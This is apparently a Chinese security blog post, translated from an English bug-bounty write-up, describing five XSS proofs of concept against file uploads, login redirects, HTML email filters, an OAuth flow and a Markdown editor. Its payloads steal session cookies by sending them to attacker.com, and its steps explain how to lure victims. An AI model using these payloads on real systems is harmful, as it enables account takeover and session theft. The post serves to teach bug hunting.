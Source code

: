 #  赚取50000美元的5个顶级 XSS PoC   
原创 骨哥说事  骨哥说事   2025-06-05 02:19  
  
<table><tbody><tr><td data-colwidth="557" width="557" valign="top" style="word-break: break-all;"><h1 data-selectable-paragraph="" style="white-space: normal;outline: 0px;max-width: 100%;font-family: -apple-system, system-ui, &#34;Helvetica Neue&#34;, &#34;PingFang SC&#34;, &#34;Hiragino Sans GB&#34;, &#34;Microsoft YaHei UI&#34;, &#34;Microsoft YaHei&#34;, Arial, sans-serif;letter-spacing: 0.544px;background-color: rgb(255, 255, 255);box-sizing: border-box !important;overflow-wrap: break-word !important;"><strong style="outline: 0px;max-width: 100%;box-sizing: border-box !important;overflow-wrap: break-word !important;"><span style="outline: 0px;max-width: 100%;font-size: 18px;box-sizing: border-box !important;overflow-wrap: break-word !important;"><span style="color: rgb(255, 0, 0);"><strong><span style="font-size: 15px;"><span leaf="">声明：</span></span></strong></span><span style="font-size: 15px;"></span></span></strong><span style="outline: 0px;max-width: 100%;font-size: 18px;box-sizing: border-box !important;overflow-wrap: break-word !important;"><span style="font-size: 15px;"><span leaf="">文章中涉及的程序(方法)可能带有攻击性，仅供安全研究与教学之用，读者将其信息做其他用途，由用户承担全部法律及连带责任，文章作者不承担任何法律及连带责任。</span></span></span></h1></td></tr></tbody></table>#   
  
#   
  
****# 防走失：https://gugesay.com/archives/4420  
  
******不想错过任何消息？设置星标****↓ ↓ ↓**  
****  
#   
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/hZj512NN8jlbXyV4tJfwXpicwdZ2gTB6XtwoqRvbaCy3UgU1Upgn094oibelRBGyMs5GgicFKNkW1f62QPCwGwKxA/640?wx_fmt=png&from=appmsg "")  
  
通过 5 个顶级 PoC 学习精英白帽寻找 XSS 的方法与技巧。  
# PoC1：文件上传+CSRF  
1. 寻找易受攻击的端点  
  
1. 在支持聊天功能的窗口拦截文件上传（Burp Suite → POST /upload_file ）  
  
1. 关键特征：请求中未包含CSRF Token  
  
1. 创建Payload：  
  
```
"><img src=1 onerror="  url=String.fromCharCode(104,116,116,112,...);  // Convert attacker URL to ASCII  xhttp=new XMLHttpRequest();  xhttp.open('GET',url+document.cookie,true);   // Steal cookies  xhttp.send();">
```  
  
使用ASCII转换进行URL编码。  
1. 执行攻击： A. 上传带有恶意文件名的文件 B. 当受害者查看聊天时→Payload会自动触发 C. 攻击者获得受害者的会话Cookie  
  
1. 影响&教训  
  
1. 文件上传中的XSS“金矿”  
  
1. onerror  
无需用户点击的触发器  
  
1. ASCII编码的绕过技巧  
  
1. 影响：帐户完全接管  
  
1. 经验与教训：  
  
# PoC2：重定向XSS  
1. 寻找易受攻击的端点  
  
1. 登录后测试所有重定向参数：https://accounts.reddit.com/?dest=TEST  
  
1. 触发条件：Payload在登录后执行  
  
1. 创建Payload：  
  
https://accounts.reddit.com/?dest=javascript:fetch('//attacker.com?c='+btoa(document.cookie))  
  
如果被阻止，可对特殊字符进行编码（ 如：%28 = ( ， %29 = ) ）  
1. 执行攻击：  
  
1. 向受害者发送恶意链接  
  
1. 受害者登录 → Payload在重定向后执行  
  
1. 攻击者获得受害者会话令牌  
  
1. 影响&教训：  
  
1. javascript:  
 在认证后重定向中生效  
  
1. 始终测试认证流程中的参数（如：dest ， redirect_uri 等）  
  
1. 影响：帐户劫持  
  
1. 经验与教训：  
  
# PoC3：Email 过滤绕过  
1. 寻找漏洞端点：  
  
1. HTML 邮件处理系统  
  
1. 关键特征：CSS url(cid://)  
 渲染 HTML  
  
1. 创建Payload：  
  
```
<style>url(cid://\00003c\000073\000063\000072\000069\000070\000074\00003e  fetch('//attacker.com?'+document.cookie)\00003c\00002f\000073\000063\000072\000069\000070\000074\00003e);</style>
```  
  
\00003c  
 等于 <  
 的八进制编码  
1. 执行攻击：  
  
A. 发送包含Payload的原始邮件 B. 受害者打开邮件 → 过滤器失效 → Payload 执行 C. 攻击者劫持邮件转发规则  
1. 影响&教训：  
  
1. 使用八进制编码绕过 HTML 过滤器  
  
1. CSS url()  
 技巧  
  
1. 使用原始 HTML 测试电子邮件客户端  
  
1. 影响：邮件帐户被攻破  
  
1. 经验与教训：  
  
# PoC4：OAuth XSS  
1. 寻找易受攻击的端点：  
  
1. 初始化： /services/login/identity?google_apps_uri=...  
  
1. 在“使用Google 登录”流程中触发  
  
1. 创建Payload：  
  
https://app.shopify.com/services/login/identity?google_apps_uri=javascript:fetch('//attacker.com?c='+document.cookie)  
1. 执行攻击：  
  
A. 诱使受害者点击恶意链接 B. 受害者通过 Google 登录 → Payload在过程中成功执行 C. 管理员 Cookie 被窃取  
1. 影响&教训：  
  
1. 测试所有 OAuth 回调参数  
  
1. javascript:  
 同样适用于第三方认证流程  
  
1. 员工/管理员账户是高价值目标  
  
1. Shopify 商店劫持  
  
1. 经验与教训：  
  
# PoC5：Markdown XSS + CSP 绕过  
  
1.寻找漏洞端点： - Markdown 编辑器（issues、维基） - 关键标志：允许的 HTML 属性，如 data-sourcepos  
2.创建Payload：  
```
<pre data-sourcepos="&#34;%22 href=&#34;x"></pre><base href="https://attacker.com">  <!-- Hijack resources --><pre x=&#34;"><code></code></pre>
```  
1. 执行攻击： A. 在问题描述中提交Payload B. 受害者查看问题 → 从 attacker.com 加载脚本 C. 恶意 JS 在有效的 CSP nonce 下运行  
  
1. 影响&教训：  
  
1. <base>  
 标签绕过 CSP  
  
1. 混乱的 HTML 混淆过滤器  
  
1. 缺失资源=利用机会  
  
1. 影响：完全账户接管 + SSO 访问  
  
1. 经验与教训：  
  
> “ XSS与复杂性无关，而是要寻找开发人员忘记验证的位置，从文件上传和重定向开始，这些都是唾手可得的果实！”  
  
  
原文：https://infosecwriteups.com/top-xss-pocs-that-made-50000-1691200eb599  
  
- END -  
  
**加入星球，随时交流：**  
  
**********（会员统一定价）：128元/年（0.35元/天）******  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/hZj512NN8jnMJtHJnShkTnh3vR3fmaqicPicANic6OEsobrpRjx5vG6mMTib1icuPmuG74h2bxC4eP6nMMzbs5QaSlw/640?wx_fmt=jpeg&from=appmsg "")  
  
**感谢阅读，如果觉得还不错的话，欢迎分享给更多喜爱的朋友～**  
  
